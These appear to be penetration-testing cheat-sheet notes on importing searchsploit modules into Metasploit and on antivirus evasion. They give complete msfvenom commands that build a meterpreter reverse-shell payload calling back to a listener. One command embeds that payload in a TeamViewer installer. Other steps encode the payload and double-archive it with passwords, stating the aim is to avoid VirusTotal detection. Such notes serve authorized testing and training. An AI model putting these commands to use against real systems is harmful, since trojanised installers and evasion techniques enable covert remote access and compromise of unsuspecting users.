 ### Searchsploit
* Use `searchsploit -t Nagios3 --exclude=".py"` to filter for ruby files only
* Place files in corresponding folder   
  * Use only snake-case, alphanumeric characters, and underscores instead of dashes
  * `/usr/share/metasploit-framework/modules/exploits/unix/webapp/nagios3_command_injection.rb`
* Load the module
  * `msfconsole -m /usr/share/metasploit-framework/modules/`
  * Or launch msfconsole and use `reload_all`

### Evasion Techniques
* Hide the payload in a normal programm and continue its execution with `-k`
  * `msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5`

#### Archives
* `msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5`
* `cat test.js`

```bash
�+n"����t$�G4ɱ1zz��j�V6����ic��o�Bs>��Z*�����9vt��%��1�
<...SNIP...>
�Qa*���޴��RW�%Š.\�=;.l�T���XF���T��
```

* Virustotal will detect this file as a threat
* If archived twice, protected with a password, and removing the extension

```bash
# Archiving the Payload
$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
$ rar a ~/test.rar -p ~/test.js

Enter password (will not be echoed): ******
Reenter password: ******

RAR 5.50   Copyright (c) 1993-2017 Alexander Roshal   11 Aug 2017
Trial version             Type 'rar -?' for help
Evaluation copy. Please register.

Creating archive test.rar
Adding    test.js                                                     OK
Done

$ ls
test.js   test.rar

# Removing the .RAR Extension
mv test.rar test
ls
test   test.js

# Archiving the Payload Again
rar a test2.rar -p test
Enter password (will not be echoed): ******
Reenter password: ******

RAR 5.50   Copyright (c) 1993-2017 Alexander Roshal   11 Aug 2017
Trial version             Type 'rar -?' for help
Evaluation copy. Please register.

Creating archive test2.rar
Adding    test                                                        OK
```